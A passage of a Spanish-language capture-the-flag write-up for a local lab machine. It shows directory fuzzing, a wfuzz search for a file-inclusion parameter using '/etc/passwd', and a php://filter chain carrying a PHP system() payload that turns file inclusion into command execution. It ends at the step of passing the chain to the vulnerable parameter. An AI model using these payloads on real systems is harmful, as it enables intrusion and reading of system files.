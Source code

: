 ```ruby
/downloads.php        (Status: 200) [Size: 1001]
/pages                (Status: 301) [Size: 308] [--> http://172.17.0.2/pages/]
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
/report.php           (Status: 200) [Size: 941]
/secret.txt           (Status: 200) [Size: 323]
Progress: 50172 / 1764488 (2.84%
```

Como vemos hay un "secret.txt" que solo nos dice que hay un usuario llamado "lin", pero lo mas interesante es que todas las paginas estan hechas en _php_, y como sabemos, pueden ocultar parametros. Ahora comenzaremos a buscar parametros por el `index.php`, para hacerlo usaremos `wfuzz` de la siguiente manera:

```css
wfuzz --hl=13 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/index.php?FUZZ=/etc/passwd"
```

```ruby
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=/etc/passwd
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

000000027:   200        32 L     47 W       1257 Ch     "search" 
```

Como vemos nos ha encontrado que el parametro "search" permite un LFI.

Al poner `?search=/etc/passwd` en el "index.php" podemos confirmar que hay un usuario "lin" en el servidor. Normalmente _si el puerto 22 estuviera abierto_ podriamos intentar leer la clave privada de el usuario "lin", pero como en este caso no esta abierto el ssh, por lo que tendremos que probar el [Wrapper php://filter](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md), si esto nos funciona significara que podremos ejecutar comandos en el sistema. Para confirmarlo solo pegamos uno en el parametro "search" y si nos da resultado significa que podremos ejecutar comandos.

![wrapper](../../../maquina-lfi.elf/imagenes/wrapper.png)

Como vemos ha funcionado, entonces ahora podremos ejecutar comandos en el sistema usando el script [php\_fileter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) de la siguiente manera:

```css
python3 php_filter_chain_generator.py --chain "<?php system('ls -la'); ?>"
```

nos copiamos el resultado y se lo damos al parametro search
